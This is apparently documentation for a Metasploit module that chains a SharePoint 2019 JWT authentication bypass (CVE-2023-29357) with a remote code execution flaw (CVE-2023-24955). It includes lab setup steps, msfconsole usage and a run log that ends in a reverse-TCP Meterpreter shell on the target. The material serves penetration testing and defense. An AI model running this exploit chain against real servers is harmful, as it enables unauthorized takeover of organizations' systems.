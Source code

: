 ## Vulnerable Application
This module exploits two vulnerabilities in Sharepoint 2019, an auth bypass CVE-2023-29357 which was patched
in June of 2023 and CVE-2023-24955, an RCE which was patched in May of 2023.

The auth bypass allows attackers to impersonate any valid Sharepoint user. This vulnerability stems from the
signature validation check used to verify JSON Web Tokens (JWTs) used for OAuth authentication. If the signing
algorithm of the user-provided JWT is set to none, SharePoint skips the signature validation step due to a logic
flaw in the ReadTokenCore() method.

After impersonating the administrator user, the attacker has access to the Sharepoint API and is able to
exploit CVE-2023-24955. This authenticated RCE vulnerability leverages the impersonated privileged account to
replace the "/BusinessDataMetadataCatalog/BDCMetadata.bdcm" file in the webroot directory with a payload. The
payload is then compiled and executed by Sharepoint allowing attackers to remotely execute commands via the API.

### Setup 
Setup Windows Server 2022  [20348.169.210806-2348.fe_release_svc_refresh_SERVER_EVAL_x64FRE_en-us.iso](https://software-download.microsoft.com/download/sg/20348.169.210806-2348.fe_release_svc_refresh_SERVER_EVAL_x64FRE_en-us.iso).
Change the computer name to "sp1".
In network connections set the IP address of the machine to a static IP on the appropriate interface.
Set the DNS settings - one to the hardcoded address of the machine and the alternate to 8.8.8.8.
Add the AD DS role to the Server and then promote to a domain controller, use all the default settings. Name the domain "domain.local".
Download and install [SQL Server 2022](https://go.microsoft.com/fwlink/?linkid=2215202&clcid=0x409&culture=en-us&country=us) with all default settings.
Download [Sharepoint 2019 image](https://download.microsoft.com/download/C/B/A/CBA01793-1C8A-4671-BE0D-38C9E5BBD0E9/officeserver.img).

Mount the image on the newly configured Domain Controller.
Before installing the prerequisites you must go to Server Manager -> Local Server -> IE Enhanced Security Configuration -> Set to OFF
The prerequisites installer will fail to download prereqs without this.

Run  the  splash.hta file, then select Install Prerequisites, this will reboot the machine.
Remount the installer and rerun the PrerequisitesInstaller.exe. Once complete for the second time, click finish, this will reboot the machine.
Remount the installer and run setup.exe, this will install all the necessary binaries, this will reboot the machine

The SharePoint Products Configuration Wizard should launch automatically, if not you can launch it from the start menu.
Click next on the Welcome to Sharepoint Products page. It will tell you that it may have to reboot the machine, click Yes.
Select "Create a new server farm", click Next.

Input the following:
Database server: sp1
Database name: SharePoint_Config
Username: DOMAIN\\Administrator
Password: N0tpassword!

Click Next.

Specify Farm Security Settings:
Enter and reenter a passphrase:

Click Next.

Specify Server Role:
Single-Server Farm

Click Next.

Configure SharePoint Central Administration Web Application
No changes here, keep the port number default and keep NTLM selected,

Click Next.

You should now have a vulnerable version of SharePoint 2019 installed.

## Verification Steps

1. Start msfconsole
1. Do: `use sharepoint_dynamic_proxy_generator_auth_bypass_rce`
1. Set the `RHOST`, `LHOST`, and `HOSTNAME` options
1. Run the module
1. Receive a Meterpreter session in the context of the user running the SharePoint application.

## Scenarios
### SharePoint 2019 
```
msf6 exploit(windows/http/sharepoint_dynamic_proxy_generator_auth_bypass_rce) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Sharepoint version detected: 16.0.0.10337
[*] Discovered hostname is: sp1
[*] Discovered domain is: DOMAIN
[*] realm: 1a150b01-299a-48a9-afd4-379402fff4de, client_id: 00000003-0000-0ff1-ce00-000000000000
[*] Got Oauth Info: 1a150b01-299a-48a9-afd4-379402fff4de|00000003-0000-0ff1-ce00-000000000000
[*] Lob id is: KLNfH
[*] Successfully impersonated Site Admin: 00000003-0000-0ff1-ce00-000000000000
[+] The target is vulnerable. Authentication was successfully bypassed via CVE-2023-29357 indicating this target is vulnerable to RCE via CVE-2023-24955.
[*] BDCMetadata existed, backing up original data
[+] Payload has been successfully delivered
[*] Sending stage (200774 bytes) to 172.16.199.72
[*] Meterpreter session 1 opened (172.16.199.1:4444 -> 172.16.199.72:57806) at 2024-01-19 14:55:44 -0500

meterpreter > getuid
Server username: DOMAIN\Administrator
meterpreter > sysinfo
Computer        : SP1
OS              : Windows Server 2022 (10.0 Build 20348).
Architecture    : x64
System Language : en_US
Domain          : DOMAIN
Logged On Users : 23
Meterpreter     : x64/windows
meterpreter >
```